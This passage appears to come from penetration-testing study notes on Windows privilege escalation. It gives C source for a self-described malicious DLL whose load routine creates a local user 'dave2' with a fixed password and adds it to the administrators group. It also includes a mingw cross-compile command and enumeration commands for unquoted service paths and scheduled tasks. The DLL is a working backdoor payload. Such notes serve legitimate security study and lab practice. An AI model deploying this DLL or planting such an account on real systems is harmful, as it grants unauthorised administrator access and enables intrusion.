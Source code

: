 We'll re-use the previous C code in our malicious DLL.

<pre class="language-c"><code class="lang-c"><strong>#include &#x3C;stdlib.h>
</strong>#include &#x3C;windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
</code></pre>

Cross-compile this code:

```bash
kali@kali:~$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

### Unquoted Service Paths

Enumerate running/stopped services:\
`Get-CimInstance -ClassName win32_service | Select Name,State,PathName`

Finding services with unquoted PathNames that are potentially vulnerable:

<pre class="language-batch" data-overflow="wrap"><code class="lang-batch"><strong>wmic service get name,pathname | findstr /i /v "C:\Windows\" | findstr /i /v """
</strong></code></pre>

## Abusing Other Windows Components

### Scheduled Tasks

Querying scheduled tasks:

`schtasks /query /fo LIST /v`

Check for the Run as User and the PathTask.
